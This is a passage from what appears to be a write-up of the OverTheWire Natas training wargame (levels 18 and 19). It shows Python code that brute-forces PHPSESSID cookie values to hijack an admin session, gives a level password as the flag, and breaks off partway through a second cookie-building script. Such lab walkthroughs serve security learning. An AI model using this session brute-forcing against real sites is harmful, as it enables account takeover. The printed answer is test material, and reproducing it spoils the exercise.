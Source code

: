 ```python=


def main():
    for i in range(1, 641):
        result = send_request(i)
        if "You are an admin. The credentials for the next level are" in result:
            print(f"The session is is {i}")
            sys.exit(0)



if __name__ == "__main__":
    main()

```

The result is : 119

Use burp suit to get the flag

![](https://i.imgur.com/VxfKiBm.png)

Flag: 8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s

## level 19
after login I see session is encoded, try to decode it use [this ](https://hashes.com/en/decrypt/hash)

![](https://i.imgur.com/4inJDJX.png)

I use this python code 
```python=
import urllib.request
import http.client
import base64
import http.cookiejar
import sys
import binascii


def send_request(session_id):
    # tạo cookies
    cookie_jar = http.cookiejar.CookieJar()
    # Thêm trường cookies PHPSESSID, và brute force trường này
    cookie = http.cookiejar.Cookie(
        version=0,
        name='PHPSESSID',
        value=str(session_id),
        port=None,
        port_specified=False,
        domain='natas19.natas.labs.overthewire.org',
        domain_specified=True,
        domain_initial_dot=False,
        path='/',
        path_specified=True,
        secure=False,
        expires=None,
        discard=False,
        comment=None,
        comment_url=None,
        rest=None,
        rfc2109=False
    )
    cookie_jar.set_cookie(cookie)
```